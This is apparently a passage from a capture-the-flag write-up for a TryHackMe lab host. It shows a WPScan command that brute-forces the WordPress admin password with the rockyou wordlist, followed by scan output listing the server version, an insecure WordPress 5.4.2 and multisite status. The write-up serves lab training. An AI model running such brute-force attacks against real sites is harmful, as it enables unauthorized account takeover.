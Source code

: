 * Running WPScan  to attempt to brute-force the admin user password :

```shell
$wpscan --url http://internal.thm/blog/wp-login.php --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.20
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://internal.thm/blog/wp-login.php/ [10.10.192.249]
[+] Started: Sat Jan  7 05:32:13 2023

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] WordPress readme found: http://internal.thm/blog/wp-login.php/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] This site seems to be a multisite
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | Reference: http://codex.wordpress.org/Glossary#Multisite

[+] The external WP-Cron seems to be enabled: http://internal.thm/blog/wp-login.php/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Most Common Wp Includes Query Parameter In Homepage (Passive Detection)
 |  - http://internal.thm/blog/wp-includes/css/dashicons.min.css?ver=5.4.2
 | Confirmed By:
 |  Common Wp Includes Query Parameter In Homepage (Passive Detection)
 |   - http://internal.thm/blog/wp-includes/css/buttons.min.css?ver=5.4.2
 |   - http://internal.thm/blog/wp-includes/js/wp-util.min.js?ver=5.4.2
 |  Query Parameter In Install Page (Aggressive Detection)
 |   - http://internal.thm/blog/wp-includes/css/dashicons.min.css?ver=5.4.2
 |   - http://internal.thm/blog/wp-includes/css/buttons.min.css?ver=5.4.2
 |   - http://internal.thm/blog/wp-admin/css/forms.min.css?ver=5.4.2
 |   - http://internal.thm/blog/wp-admin/css/l10n.min.css?ver=5.4.2

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

```
